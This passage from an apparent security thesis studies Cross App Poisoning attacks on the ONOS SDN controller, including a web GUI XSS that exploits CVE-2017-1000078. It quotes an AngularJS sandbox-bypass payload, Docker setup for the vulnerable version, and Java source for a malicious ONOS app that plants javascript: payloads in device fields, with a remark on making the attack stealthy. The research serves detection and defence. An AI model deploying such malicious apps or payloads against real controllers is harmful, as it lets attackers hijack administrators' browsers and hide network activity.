        HostEvent e = new HostEvent(HostEvent.Type.HOST_UPDATED, h);

        eventDispatcher.post(e);
    }
\end{lstlisting}
The attack is considered a failed attempt for several reasons: (a) first of all the newly created host is not saved in the data store of the main node because usually the data store is updated first and then the event is created to notify the listeners; (b) no application is listening for this type of event and therefore the payload is not sent to any application; (c) there are no replica node data stores to upgrade. That said, it is worth emphasizing one thing: even if nothing can be done about point (a), considerations must be made regarding points (b) and (c). The test was carried out with the default applications in ONOS, but an attacker could still exploit this method with applications active in the victim's system that listen for events and perform actions based on the parameters of the events. If replica nodes are present, they will be updated; when and if the main node goes down one of the replicas would become the main node and thus the attacker would have successfully poisoned the data store.

It is difficult to understand what types of attacks an attacker could carry out since this only depends on the applications that takes action based on events. In any case to increase the security level of ONOS more accurate checks could be implemented: for example using a regular expression (accompanied by various passed tests) to validate the inputs in IP addresses, MAC addresses and other known patterns. That said, this malicious technique is a Cross Application Poisoning attack and so the proposed solution can spot the attack.
\medskip

%% - Port Mirroring possible just using locations?
In Chapter 2 two examples of working CAP attacks were presented. An idea that has been studied is to modify the second application (Impersonation Host Tracking) to achieve Port Mirroring. Port mirroring is simply the technique of duplicating traffic going through one port of a switch into another port. The idea was to use host location poisoning to duplicate the content of connections a victim received on a port into the one the attacker's compromised host was connected to. The figure 4.2 shows how the attack should work: the host H1 pings the host H2 and the connection is working fine, but the data is duplicated and sent to the port in which the compromised host H3 is connected. In this scenario the attacker can sniff all the network packets sent to the victim host H2.
%% - idea
\begin{figure}[h]
\caption{Port Mirroring}
\label{fig:mirroring}

\includegraphics[width=1.0\textwidth]{resources/Chapter-4/mirroring.png}
\centering
\end{figure}

However, it is not a viable attack using location poisoning. The problem is that when a new flow rule needs to be installed, the ONOS controller takes the primary location of the destination host and uses that value to route the traffic. So in this case only one between the victim's host port and the attacker's host port can be chosen as the primary location for host H2.

\clearpage


\section{CAP attacks targeting web applications}

%% - summary
This section explains the results obtained in attacking a web application using a Cross App Poisoning attack. This is the first time that a Cross App Poisoning attack has been used against a target that doesn't deal with networking actions. A research on web vulnerabilities was carried out for the GUI applications included by default in ONOS, but the latter did not lead to positive results. For this reason, a known and already fixed vulnerability was exploited using a previously released version of ONOS. In addition to the explanation of the actual attack, the vulnerability research methodology used, the reasons for certain choices, and the technologies (including the source code for the malicious application) used are presented.

\subsection{Background}

%% - background, never shown a CAP attack targeting web
Various Cross App Poisoning attacks have been created and explained in the literature using different applications, gadgets and payloads obtaining quite different results. However, these results are all in the networking area. For example, reducing resources (such as CPU power and memory) to a switch or host in the network, inserting a malicious flow rule, performing Denial of Service attacks by overloading switches. Also in this document the Cross App Poisoning attacks that have been presented are limited to causing damage only to the network and its correct functioning. Therefore another side activity of the research and study of a framework for the detection of Cross App Poisoning attacks was the research of a Cross App Poisoning attack that had as target a component that does not affect the correct functioning of the network. One of the first target taken into consideration was the Web environment. As we have seen previously, ONOS exposes many resources on the Web side and, moreover, vulnerable components have already been found, so it could be a good choice. In particular, ONOS in addition to the API and their related documentation system (Swagger), also serves a graphical interface to monitor what happens inside the controller and the network. The GUI is an ONOS application called "onos.onosproject.gui2" (the legacy version org.onosproject.gui also exists) and is activated by default when ONOS is started. The latter exposes its services on port 8181 and requires a login as soon as it is accessed. Once the access credentials have been entered, the home page shows a graph with the currently active network topology nodes such as switches, hosts and ports. At the top left corner there is an hamburger menu where you can choose various pages to be shown. There are pages that show information about the whole system (applications, settings, cluster nodes...) and others that show information about the network (such as active switches and hosts and their related information). Among the many possible attacks in the web environment, the Cross Site Scripting attack seems the most probable to be present given that the pages need a lot of data points to be built and some input field could be injectable. To implement such an attack, a malicious application is required which injects a payload into a data store which will then be used to build a web page (as example the EventHostTracking application that was presented in the previous section could be used). Many black-box attack tests have been carried out to find vulnerable injection points (injecting Javascript code into a data store): various applications that exploit different data stores have been implemented (Preferences, Host Tracking, Group) but none of these gave a positive result. At this point a code review of the two applications that produce the graphical interfaces has been carried out. The legacy version is based on AngularJS 1.3.5, while the gui2 application is based on Angular 10 and ES6 (aka ES2015). As written in the official Angular documentation under the section "Preventing cross-site scripting (XSS)" \cite{angular}:
\begin{quoting}[font=itshape, begintext={"}, endtext={"}]
To systematically block XSS bugs, Angular treats all values as untrusted by default. When a value is inserted into the DOM from a template binding, or interpolation, Angular sanitizes and escapes untrusted values. If a value was already sanitized outside of Angular and is considered safe, communicate this to Angular by marking the value as trusted.
\end{quoting}
This means that it is not effective to inject malicious Javascript code into data stores because it will be sanitized by Angular anyway. A code review was therefore carried out with particular attention to the values marked as trusted in order to find an exploitable injection point. They have all been reviewed and none of them is capable of carrying a Javascript payload that can lead to a Cross Site Scripting attack (e.g. an integer value is not suitable). Another test that has been performed is to try to use known bypass Cross Site Scripting payloads for the security method implemented in Angular. The GitHub repository "PayloadsAllTheThings" from user swisskyrepo contains a consistent list of Cross Site Scripting bypasses for different versions of Angular. The following is the payload used to test if a bypass is possible, it is written on the repository that it works from AngularJS version 1.3.3 up to 1.3.18.
\begin{lstlisting}
{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
   'a'.constructor.prototype.charAt=[].join;
   $eval('x=alert(1)//'); }}
\end{lstlisting}
Even if the legacy application is built using AngularJS 1.3.5 (and so it should be possible to bypass Cross Site Scripting protection), the payload didn't work. After many attempts and no satisfactory results, it seems that the two applications are not vulnerable to Cross Site Scripting attacks.


\subsection{Attack description}

Since no Cross Site Scripting vulnerability exploitable using a Cross App Poisoning attack was found in web GUI applications, it's worth looking for old Cross Site Scripting vulnerabilities already discovered in previous versions of ONOS. The vulnerability CVE-2017-1000078 tells us that ONOS 1.9.0 is vulnerable to a Cross Site Scripting attack (classified as CWE-79, Improper Neutralization of Input During Web Page Generation) \cite{CVE-2017-1000078}. The vulnerability description in the ONOS Security Advisories web page says that there is a lack of sanitization when the web page is built using data coming from the Host data store. Moreover, it's specified that the vulnerability is exploitable when a user adds new devices or hosts using the HTTP REST API provided by ONOS. In particular, the payload can be inserted in some input fields like serial, swVersion, hwVersion or manufacturer. Even if the description of the vulnerability says that the HTTP REST interface should be used, there's no reason why using a malicious application the attack should not work. Figure \ref{fig:devicexss} shows how the attack should happen. There are four active entities in this hypothetical environment. As soon as the network operator installs and activates the malicious application, the attack starts its work and performs the malicious actions. A new host is created (obviously dummy, it doesn't really exist in the underlying network) and fills in the necessary fields to create a fake host using malicious payloads. The Host data store stores the information on the newly added host without checking the validity of the inserted fields. When the victim requests to view the vulnerable web page, the web application will read from the host data store the data needed to build the requested page. By doing so, the Javascript payload inserted by the attacker will be executed in the victim's browser. In this case it should be noted that to have access to the vulnerable page (actually to all the contents exposed by the web application) you need to have administrator credentials, otherwise if you do not have the cookie with the necessary privileges the application automatically redirects to the login page.

%% - image on how attack works
\begin{figure}[h]
\caption{How the attack works}
\label{fig:devicexss}

\includegraphics[width=1.0\textwidth]{resources/Chapter-4/devicexss.png}
\centering
\end{figure}

\subsection{Proof of Concept}
%% - ONOS docker setup
As already mentioned, the CVE-2017-1000078 vulnerability is present in an older version of ONOS. In particular, versions 1.8.0 and 1.9.0 have been confirmed as vulnerable. Luckily on Docker Hub it was possible to retrieve the docker image for ONOS 1.9.0. The Dockerfile is not very complex: it downloads the ONOS source code, installs some dependencies, exposes the necessary ports and starts ONOS locally \cite{dockeronos}.

To download the ONOS version 1.9.0 docker image to your machine, run the following command.
\begin{lstlisting}[language=bash]
sudo docker pull onosproject/onos:1.9.0
\end{lstlisting}

Once the Docker image of ONOS version 1.9.0 have been installed, it's possible to start the controller using this command. The "run" subcommand starts the container using the the chosen image defined in the last field. The -t (or --tty) flag tells Docker to set up a console within the container. The -p (or --port) flag tells Docker which ports should be exposed outside of the internal Docker network. The --name flag defines the name of the container.
\begin{lstlisting}[language=bash]
sudo docker run -t -p 8181:8181 -p 8101:8101 -p 6653:6653 -p 5005:5005 -p 830:830 --name onos onosproject/onos:1.9.0
\end{lstlisting}

Once ONOS is set up, it is possible to set up the data plane too using Mininet as already explained in previous sections (even if in this attack is not necessary to do so).
\medskip

%% - java code
The malicious application to be developed does not differ much from the others that have been explained and of which the source code is present in this document. For example it is important to remember to update the pom.xml file with the right version of ONOS in all the fields needed to correctly compile the application and use it with the vulnerable version of ONOS.
\begin{lstlisting}
    <parent>
        <groupId>org.onosproject</groupId>
        <artifactId>onos-dependencies</artifactId>
        <version>1.9.0</version>
        <relativePath/><!-- parent is remote -->
    </parent>
...
    <properties>
        <onos.version>1.9.0</onos.version>
\end{lstlisting}

Omitting the imports, the application does not differ from the previous ones: the logger for the built-in logs of ONOS is defined and the various references to the mandatory components that must be present in the ONOS environment for the correct functioning of the application are being defined too. The Javascript payload that will be used in the attack is also defined here.
\begin{lstlisting}[language=java,firstnumber=41]
/**
 * XSS device POC application
 */
@Component(immediate = true)
public class XssDevicePoc {

    private final Logger log = LoggerFactory.getLogger(getClass());

    private final String PAYLOAD = "<a href=javascript:alert(1)>CLICKME</a>";

    @Reference(cardinality = ReferenceCardinality.MANDATORY_UNARY)
    protected CoreService coreService;
...
\end{lstlisting}

Within the \textbf{activate()} method which will automatically be called to activate the application, the \textbf{injectXss()} function is called.
This function creates a new device (or a switch) with the default characteristics and inserts the payload selected by the attacker in all possible fields. In particular, the URI is also created in a way that can create problems for the victim. In this case the fields where the malicious payload is entered are: manufacturer, hwVersion, swVersion and serialNumber. The device store is then used to save the data of the new device created using the \textbf{createOrUpdateDevice()} function. For testing purposes and to better understand if something doesn't work as it should everything is placed inside a try-catch block, obviously in a real attack this shouldn't be inserted to ensure that the network operator does not notice nothing, as few traces as possible are left and the attack is stealthy.
\begin{lstlisting}[language=java,firstnumber=72]
    private void injectXss() {
        try {
            URI uri = new URI("javascript:alert(1)");

            DeviceId dId = pickRandomDevice().id();

            ChassisId cId = new ChassisId(5);

            DefaultAnnotations sa = DefaultAnnotations.builder().build();

            DefaultDeviceDescription deviceDescription = new DefaultDeviceDescription(uri, Device.Type.SWITCH, PAYLOAD,
                    PAYLOAD, PAYLOAD, PAYLOAD, cId, sa);
            deviceStore.createOrUpdateDevice(ProviderId.NONE, dId, deviceDescription);

            log.info("Payload injected!");

        } catch (Exception e) {
            e.printStackTrace();
            StringWriter sw = new StringWriter();
            PrintWriter pw = new PrintWriter(sw);
            e.printStackTrace(pw);
            log.info(sw.toString());
            log.info("exception!!!!!!11!!!!11!");
        }
    }
\end{lstlisting}

This is how the attack will be carried out:
\begin{itemize}
    \item The application is activated and the device containing the malicious payload is created
    \item The victim logs in to the web application
    \item The victim requests the vulnerable web page
    \item The web page is built using the payloads
    \item The victim clicks on the device icon in the topology web page
    \item The victim clicks on the malicious link
    \item The malicious payload is executed in the victim's browser.
\end{itemize}

%% - results obtained and what an attacker can achieve
In this scenario, there are many real attacks that a potential attacker could carry out. As we have already seen in the previous sections, phishing and the keylogger can also be used here. Unfortunately (for the attacker) the session cookie has the HTTPONLY flag set to true also in this application and therefore it is not possible to get the session cookie through a Cross Site Scripting attack and steal the session from the administrator. Obviously, on this page it is also possible to change the network topology that the administrator sees and therefore "hide" switches, links or connections that the attacker would like to remain undiscovered.
\medskip

%% - remediation (issue patched in new releases)
While this is an excellent result given the fact that it is the first time a Cross App Poisoning attack has been used against a non-networking target, it is known to no longer be reproducible with the current version of ONOS (2.7.0). Fortunately, the ONOS Security Advisories page under the section "Patched Versions" says \cite{sec-adv-onos}:
\begin{quoting}[font=itshape, begintext={"}, endtext={"}]
Patches have been committed to 1.8, 1.9, 1.10 and will be included in future builds.
\end{quoting}

Using the malicious application with up-to-date version can confirm that the patch has been applied and that correctly fixes the vulnerability. Unfortunately, strict security checks on the fields of a host or device have not been implemented, which would partially reduce the risk of this type of attack (but in any case the patch must be used by sanitizing the fields when used to build web pages). It should be noted that even in this case it is possible to find the potential Cross App Poisoning attack using the proposed solution

\clearpage